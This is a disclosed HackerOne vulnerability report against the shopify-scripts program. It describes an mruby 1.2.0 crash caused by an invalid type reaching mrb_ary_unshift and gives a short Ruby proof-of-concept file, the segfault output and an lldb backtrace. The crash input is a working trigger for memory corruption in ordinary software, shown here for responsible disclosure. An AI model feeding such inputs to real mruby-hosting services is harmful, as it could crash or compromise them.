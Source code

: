 # Invalid memory access while freeing memory, caused by invalid type passed to mrb_ary_unshift

## Report Details
- **Report ID**: 183696
- **URL**: https://hackerone.com/reports/183696
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-11-21T04:57:52.137Z
- **Disclosed**: 2016-12-17T20:51:10.069Z

## Reporter
- **Username**: haquaman
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
Hi,

Phew, this was a tricky one as the cause wasn't next door to where the dereference happened!

The file causing this is:
```
a *case
  when nil
  redo
end
```

```
$ ./dev/bin/mruby --version
mruby 1.2.0 (2015-11-17)
```

```
$ ./dev/bin/mruby crash.rb
crash.rb:1:3: '*' interpreted as argument prefix
trace:
        [0] crash.rb:3
crash.rb:3: undefined method 'a' for main (NoMethodError)
Segmentation fault: 11
```

```
(lldb) target create "./dev/bin/mruby"
Current executable set to './dev/bin/mruby' (x86_64).
(lldb) settings set -- target.run-args  "crash.rb"
(lldb) r
Process 47144 launched: './dev/bin/mruby' (x86_64)
crash.rb:1:3: '*' interpreted as argument prefix
trace:
	[0] crash.rb:3
crash.rb:3: undefined method 'a' for main (NoMethodError)
Process 47144 stopped
* thread #1: tid = 0x5aab878, 0x0000000100037533 mruby`kh_destroy_iv + 35, queue = 'com.apple.main-thread', stop reason = EXC_BAD_ACCESS (code=1, address=0x19)
    frame #0: 0x0000000100037533 mruby`kh_destroy_iv + 35
mruby`kh_destroy_iv:
->  0x100037533 <+35>: movq   0x18(%rax), %rax
    0x100037537 <+39>: movq   %rax, %rsi
```